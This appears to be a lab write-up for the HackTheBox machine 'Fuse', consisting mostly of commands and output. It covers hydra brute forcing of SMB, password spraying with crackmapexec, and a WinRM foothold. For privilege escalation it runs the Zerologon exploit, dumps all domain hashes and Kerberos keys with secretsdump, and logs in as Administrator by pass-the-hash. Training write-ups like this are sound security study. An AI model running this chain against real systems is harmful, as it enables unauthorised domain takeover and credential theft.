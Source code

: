 ## Brute Force
#### Cewl to get a pwd dictionary
It may take a minute or so
```bash
❯ cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -w cewl3.txt  
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```


#### Hydra
It may take two or three minutes
```bash
❯ cat users.txt  
pmerton  
tlavel   
❯ export IP=10.129.2.5           
❯ hydra -L users.txt -P cewl3.txt $IP smb
[445][smb] host: 10.129.2.5   login: tlavel   password: Fabricorp01
```
## SMB 
#### smbclient
```bash
❯ smbclient -L $IP -U tlavel  
Password for [WORKGROUP\tlavel]:  
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
#### smbpasswd to update it
```bash
smbpasswd -r $IP -U tlavel <- won't work, use impacket instead

❯ /usr/bin/impacket-smbpasswd -newpass Qwer4321= tlavel:Fabricorp01@$IP  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[!] Password is expired, trying to bind with a null session.  
[*] Password was changed successfully.
```
## RPC enum printers
```bash
❯ rpcclient -U "tlavel" $IP  
Password for [WORKGROUP\tlavel]:  
rpcclient $> enumprinters  
       flags:[0x800000]  
       name:[\\10.129.2.5\HP-MFT01]  
       description:[\\10.129.2.5\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]  
       comment:[]
❯ cat enumdomusers.txt | cut -d "]" -f1 | cut -d "[" -f2
```
#### Optional: crackmapexec build users.list
```
❯ crackmapexec smb $IP -u bhult -p Qwer4321=
```
## Password Spray
* https://github.com/A1vinSmith/OSCP-PWK/blob/master/HackTheBox/Windows/Active%20Directory/Forest/README.md#password-spraying---making-a-target-user-list-htb-academy
```bash
❯ crackmapexec winrm $IP -u users.txt -p '$fab@s3Rv1ce$1'  
SMB         10.129.2.5      5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)  
HTTP        10.129.2.5      5985   FUSE             [*] http://10.129.2.5:5985/wsman  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```
## Foothold
```bash
evil-winrm -i $IP -u svc-print -p '$fab@s3Rv1ce$1'
```

## Reference
* https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/
* https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system
* https://www.hackingarticles.in/fuse-hackthebox-walkthrough/
* https://github.com/Kyuu-Ji/htb-write-up/blob/master/fuse/write-up-fuse.md
* https://www.secjuice.com/htb-fuse-walkthrough/
* https://0xn1ghtr1ngs.github.io/posts/Fuse-HTB/
* https://snowscan.io/htb-writeup-fuse/
* https://chr0x6eos.github.io/2020/10/31/htb-Fuse.html
* https://github.com/FuzzySecurity/Capcom-Rootkit
* https://fuzzysecurity.com/tutorials/28.html
* https://steflan-security.com/hack-the-box-fuse-walkthrough/
* https://github.com/A1vinSmith/htb-scripts
* https://initone.dz/htb-walkthrough-fuse/

## Privilege Escalation
### Method 1: SeLoadDriverPrivilege
```bash cmd
whoami /priv  
  
PRIVILEGES INFORMATION  
----------------------  
  
Privilege Name                Description                    State  
============================= ============================== =======  
SeMachineAccountPrivilege     Add workstations to domain     Enabled  
SeLoadDriverPrivilege         Load and unload device drivers Enabled
```
### Method 2: Zerologon
https://github.com/A1vinSmith/zerologon

#### Check doamin's NetBIOS
```powershell
nbtstat -n  
  
Ethernet0 2:  
Node IpAddress: [10.129.2.5] Scope Id: []  
  
               NetBIOS Local Name Table  
  
      Name               Type         Status  
   ---------------------------------------------  
   FUSE           <00>  UNIQUE      Registered  
   FABRICORP      <1C>  GROUP       Registered  
   FABRICORP      <00>  GROUP       Registered  
   FUSE           <20>  UNIQUE      Registered  
   FABRICORP      <1B>  UNIQUE      Registered
```

#### Set DC to empty string password
```bash
❯ python set_empty_pw.py FUSE $IP  
Performing authentication attempts...  
=============================================================  
NetrServerAuthenticate3Response    
ServerCredential:                  
   Data:                            b'\xe5Q\xe0\xdfa\xddt+'    
NegotiateFlags:                  556793855    
AccountRid:                      1000    
ErrorCode:                       0    
  
  
server challenge b'\xe5\xe9<t\xdeO]k'  
NetrServerPasswordSet2Response    
ReturnAuthenticator:               
   Credential:                        
       Data:                            b'\x01\xdb\xb3\xba\xf2A\xe1\xde'    
   Timestamp:                       0    
ErrorCode:                       0    
  
  
  
Success! DC should now have the empty string as its machine password.
```

```bash
impacket-secretsdump -just-dc -no-pass FUSE\$@$IP  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)  
[*] Using the DRSUAPI method to get NTDS.DIT secrets  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:370ddcf45959b2293427baa70376e14e:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8ee7fac1bd38751dbff06b33616b87b0:::  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
svc-print:1104:aad3b435b51404eeaad3b435b51404ee:38485fd7730cca53473d0fa6ed27aa71:::  
bnielson:1105:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::  
sthompson:1601:aad3b435b51404eeaad3b435b51404ee:5fb3cc8b2f45791e200d740725fdf8fd:::  
tlavel:1602:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::  
pmerton:1603:aad3b435b51404eeaad3b435b51404ee:e76e0270c2018153275aab1e143421b2:::  
svc-scan:1605:aad3b435b51404eeaad3b435b51404ee:38485fd7730cca53473d0fa6ed27aa71:::  
bhult:7101:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::  
dandrews:7102:aad3b435b51404eeaad3b435b51404ee:689583f00ad18c124c58405479b4c536:::  
mberbatov:7601:aad3b435b51404eeaad3b435b51404ee:b2bdbe60565b677dfb133866722317fd:::  
astein:7602:aad3b435b51404eeaad3b435b51404ee:2f74c867a93cda5a255b1d8422192d80:::  
dmuir:7603:aad3b435b51404eeaad3b435b51404ee:6320f0682f940651742a221d8218d161:::  
FUSE$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
[*] Kerberos keys grabbed  
Administrator:aes256-cts-hmac-sha1-96:e6dcafd3738f9433358d59ef8015386a8c0a418a09b3e8968f8a00c6fa077984  
Administrator:aes128-cts-hmac-sha1-96:83c4a7c2b6310e0b2323d7c67c9a8d68  
Administrator:des-cbc-md5:0dfe83ce576d8aae  
krbtgt:aes256-cts-hmac-sha1-96:5a844c905bc3ea680729e0044a00a817bb8e6b8a89c01b0d2f949e2d7ac9952e  
krbtgt:aes128-cts-hmac-sha1-96:67f0c1ace3b5a9f43e90a00c1e5445c6  
krbtgt:des-cbc-md5:49d93d43321f02b3  
svc-print:aes256-cts-hmac-sha1-96:f06c128c73c7a4a2a6817ee22ce59979eac9789adf7043acbf11721f3b07b754  
svc-print:aes128-cts-hmac-sha1-96:b662d12fedf3017aed71b2bf96ac6a99  
svc-print:des-cbc-md5:fea11fdf6bd3105b  
bnielson:aes256-cts-hmac-sha1-96:62aef12b7b5d68fe508b5904d2966a27f98ad83b5ca1fb9930bbcf420c2a16b6  
bnielson:aes128-cts-hmac-sha1-96:70140834e3319d7511afa5c5b9ca4b32  
bnielson:des-cbc-md5:9826c42010254a76  
sthompson:aes256-cts-hmac-sha1-96:e93eb7d969f30a4acb55cff296599cc31f160cca523a63d3b0f9eba2787e63a5  
sthompson:aes128-cts-hmac-sha1-96:a8f79b1eb4209a0b388d1bb99b94b0d9  
sthompson:des-cbc-md5:4f9291c46291ba02  
tlavel:aes256-cts-hmac-sha1-96:f415075d6b6566912c97a4e9a0249b2b209241c341534cb849b657711de11525  
tlavel:aes128-cts-hmac-sha1-96:9ac52b65b9013838f129bc9a99826a4f  
tlavel:des-cbc-md5:2a238576ab7a6213  
pmerton:aes256-cts-hmac-sha1-96:102465f59909683f260981b1d93fa7d0f45778de11b636002082575456170db7  
pmerton:aes128-cts-hmac-sha1-96:4dc80267b0b2ecc02e437aef76714710  
pmerton:des-cbc-md5:ef3794940d6d0120  
svc-scan:aes256-cts-hmac-sha1-96:053a97a7a728359be7aa5f83d3e81e81637ec74810841cc17acd1afc29850e5c  
svc-scan:aes128-cts-hmac-sha1-96:1ae5f4fecd5b3bd67254d21f6adb6d56  
svc-scan:des-cbc-md5:e30b208ccecd57ad  
bhult:aes256-cts-hmac-sha1-96:f1097eb00e508bf95f4756a28f18f490c40ed3274b2fd67da8919647591e2c74  
bhult:aes128-cts-hmac-sha1-96:b1f2affb4c9d4c70b301923cc5d89336  
bhult:des-cbc-md5:4a1a209d4532a7b9  
dandrews:aes256-cts-hmac-sha1-96:d2c7389d3185d2e68e47d227d817556349967cac1d5bfacb780aaddffeb34dce  
dandrews:aes128-cts-hmac-sha1-96:497bd974ccfd3979edb0850dc65fa0a8  
dandrews:des-cbc-md5:9ec2b53eae6b20f2  
mberbatov:aes256-cts-hmac-sha1-96:11abccced1c06bfae96b0309c533812976b5b547d2090f1eaa590938afd1bc4a  
mberbatov:aes128-cts-hmac-sha1-96:fc50f72a3f79c2abc43d820f849034da  
mberbatov:des-cbc-md5:8023a16b9b3d5186  
astein:aes256-cts-hmac-sha1-96:7f43bea8fd662b275434644b505505de055cdfa39aeb0e3794fec26afd077735  
astein:aes128-cts-hmac-sha1-96:0d27194d0733cf16b5a19281de40ad8b  
astein:des-cbc-md5:254f802902f8ec7a  
dmuir:aes256-cts-hmac-sha1-96:67ffc8759725310ba34797753b516f57e0d3000dab644326aea69f1a9e8fedf0  
dmuir:aes128-cts-hmac-sha1-96:692fde98f45bf520d494f50f213c6762  
dmuir:des-cbc-md5:7fb515d59846498a  
FUSE$:aes256-cts-hmac-sha1-96:ba250f2101ecad1a2aa8fab0c95d7a66b59c904eb0edd47121f51ff561f3fb2e  
FUSE$:aes128-cts-hmac-sha1-96:bf995eed47e2a8849b72e95eabd5a929  
FUSE$:des-cbc-md5:b085ab974ff1e049  
[*] Cleaning up...
```

```bash
evil-winrm -i $IP -u Administrator -H 370ddcf45959b2293427baa70376e14e
```
